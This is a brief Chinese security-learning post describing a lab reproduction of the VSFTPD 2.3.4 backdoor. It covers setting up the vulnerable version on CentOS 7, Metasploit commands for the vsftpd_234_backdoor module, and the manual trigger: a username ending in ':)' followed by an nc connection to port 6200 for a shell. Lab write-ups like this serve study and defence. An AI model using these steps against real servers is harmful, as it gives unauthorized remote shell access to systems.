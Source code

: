 #  VSFTPD 2.3.4 笑脸漏洞   
Sword  网络安全学习爱好者   2024-11-17 00:39  
  
# 环境搭建  
  
**压缩包需要下载特定版本，官方提供的安装包没有这个漏洞**  
  
1.靶机环境是centos7  ，首先解压缩包，并上传到靶机目录  
  
  tar -zxvf   压缩包名称  
  
2.进入vsftpd目录，赋予文件权限，之后进行make &&make install  
  
cd /vsftpd-2.3.4  
  
chmod 777 *  
  
make &&make install  
# 漏洞利用  
## code:1  
  
使用msf利用  
  
```
use exploit/unix/ftp/vsftpd_234_backdoor 
set RhoSTS 192.168.142.145
exploit
```  
  
```
```  
## code:2  
  
手动利用  
  
打开命令行登录ftp服务器，在用户名处输入root:)然后随意输入一个密码回车等待，  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZAPxzic90CGBb636ckQ1MC08nniczShXsWRTiccOHCknXedybxxLPusj3PLXFDgPic1UBsd5odXAd3xRNL6KrqF1sQ/640?wx_fmt=png&from=appmsg "")  
  
输入nc 目标ip 6200 即可连接  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZAPxzic90CGBb636ckQ1MC08nniczShXsWiaE8iaOyAFCwKW2mZdSb9H4eNBXXTl40BhYb2iaS6Ywbib6nH9bf03NPaQ/640?wx_fmt=png&from=appmsg "")  
  
